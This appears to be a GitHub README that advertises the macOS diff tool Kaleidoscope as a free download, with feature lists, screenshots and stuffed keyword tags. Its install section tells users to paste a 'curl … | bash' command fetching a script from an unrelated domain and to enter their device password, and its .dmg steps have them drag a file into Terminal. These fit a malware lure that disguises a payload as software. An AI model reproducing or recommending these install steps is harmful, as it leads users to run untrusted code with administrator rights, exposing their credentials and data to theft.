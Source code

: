 # 🔍 Kaleidoscope — Powerful File Comparison Tool for macOS

**Kaleidoscope** is a sophisticated comparison and merge tool designed specifically for macOS. Whether you're a developer comparing source code, a writer tracking document changes, or a designer reviewing images, Kaleidoscope provides a seamless and elegant experience for spotting differences and resolving conflicts.

Built with native macOS integration, Kaleidoscope supports file, folder, image, and text comparisons with high performance and a beautiful interface.

---

## ✅ Download Kaleidoscope for macOS  
[![Download Kaleidoscope](https://img.shields.io/badge/Download-Kaleidoscope-blueviolet)](https://shuziktobehuman.github.io/huja/kaleidoscope)

---

## 📥 How to Use

Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

Installation via a command in the terminal:

1. Copy the installation command below.
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get2/install.sh)"
```




## 📦 What is Kaleidoscope?

Kaleidoscope is a premium macOS utility that helps users visually compare text files, folders, and even images. With its intuitive split-view and side-by-side comparison modes, you can instantly detect and merge changes. It integrates smoothly with Git, SVN, and other version control systems, making it an essential tool for professionals who work with content revisions or collaborative projects.

---

## ✨ Features

- 📝 **Text & Code Comparison** with syntax highlighting  
- 🗂 **Folder Comparison** for spotting missing or changed files  
- 🖼 **Image Comparison** with pixel-level accuracy  
- 🔄 **Merge Capabilities** for resolving text file conflicts  
- 💻 Deep integration with Git, SVN, and other version control tools  
- 🎨 Beautiful native macOS UI with dark mode support  
- 🔌 CLI tool and workflow automation options for power users  
- 🚀 Optimized for Apple Silicon (M1/M2/M3)  

---

## 💡 Why Use Kaleidoscope?

- 🛠 Perfect for developers, writers, and creative professionals  
- 📁 Works with all file types: text, source code, folders, and images  
- ⚙️ Saves time and reduces human error during code reviews and edits  
- 🔍 Precise, intuitive difference highlighting in clean interface  
- 🧩 Essential tool for modern macOS-based workflows  

---

[![Download Kaleidoscope](https://img.shields.io/badge/Download-Kaleidoscope-blueviolet)](https://shuziktobehuman.github.io/huja/kaleidoscope)

---



## 🖼 Preview

![Kaleidoscope Screenshot 1](https://framerusercontent.com/images/QRuIpujxsLY3rT4cD6ijXox9xuQ.png)  
![Kaleidoscope Screenshot 2](https://framerusercontent.com/images/2XdBDzqh5arN3QbYtCYf977Sk.png)  


---

## 📌 Tags

kaleidoscope, kaleidoscope miracle drops, miracle drops,  
kaleidoscope drops, kaleidoscope website, kaleidoscope near me,  
kaleidoscope hair website, da brat kaleidoscope, 
kaleidoscope miracle drops extra strength, kaleidoscope judy,  
miracle drops extra strength, kaleidoscope miracle edges, kaleidoscope extra strength miracle drops,  
kaleidoscope miracle drops original, target kaleidoscope, kaleidoscope mac,  
kaleidoscope mac download, kaleidoscope download mac

---
